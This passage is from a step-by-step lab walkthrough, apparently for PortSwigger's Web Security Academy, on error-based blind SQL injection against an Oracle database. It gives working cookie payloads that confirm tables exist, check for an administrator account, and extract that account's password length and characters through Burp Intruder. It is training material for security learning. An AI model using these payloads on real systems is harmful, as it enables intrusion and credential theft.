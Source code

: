 5.  Now that you've crafted what appears to be a valid query, try submitting an invalid query while still preserving valid SQL syntax. For example, try querying a non-existent table name:
    - `TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'`
    - This time, an error is returned. 
    - This behavior strongly suggests that your injection is being processed as a SQL query by the back-end.
6.  As long as you make sure to always inject syntactically valid SQL queries, you can use this error response to infer key information about the database. ==For example, in order to verify that the `users` table exists, send the following query:==
    - `TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`
    - As this query _does not return an error_, you can infer that this _table does exist_. 
    - Note that the `WHERE ROWNUM = 1` condition is important here to prevent the query from returning more than one row, which would break our concatenation.
7.  You can also exploit this behavior to test conditions. First, submit the following query:
    - `TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`
    - Verify that an error message is received.
8.  Now change it to:
    - `TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`
    - Verify that the error disappears. This demonstrates that you can trigger an error conditionally on the truth of a specific condition. 
    - The `CASE` statement tests a condition and evaluates to one expression if the condition is true, and another expression if the condition is false. 
    - The former expression contains a divide-by-zero, which causes an error. In this case, the two payloads test the conditions `1=1` and `1=2`, and an error is received when the condition is `true`.
9.  You can use this behavior to test whether specific entries exist in a table. For example, use the following query to check whether the username `administrator` exists:    
    - `TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
    - Verify that the condition is true (_the error is received_), confirming that there is a user called `administrator`.
10.  The next step is to _determine how many characters are in the password_ of the `administrator` user. To do this, change the value to:
    - `TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
    - This condition should be true, confirming that the password is greater than 1 character in length.
11.  Send a series of follow-up values to test different password lengths. Send:
    - `TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
    - Then send:
    - `TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>3 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
    - And so on. 
    - You can do this manually using [Burp Repeater](https://portswigger.net/burp/documentation/desktop/tools/repeater), since the length is likely to be short. 
    - When the condition stops being true (_i.e. when the error disappears_), you have determined the length of the password, which is in fact 20 characters long.
12.  After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use [Burp Intruder](https://portswigger.net/burp/documentation/desktop/tools/intruder). Send the request you are working on to Burp Intruder, using the context menu.
13.  In the Positions tab of Burp Intruder, clear the default payload positions by clicking the "Clear §" button.
14.  In the Positions tab, change the value of the cookie to:
    - `TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
    - This uses the `SUBSTR()` function to extract a single character from the password, and test it against a specific value. 
    - Our attack will cycle through each position and possible value, testing each one in turn.
15.  Place payload position markers around the final `a` character in the cookie value. To do this, select just the `a`, and click the "Add §" button. You should then see the following as the cookie value (note the payload position markers):
    - `TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`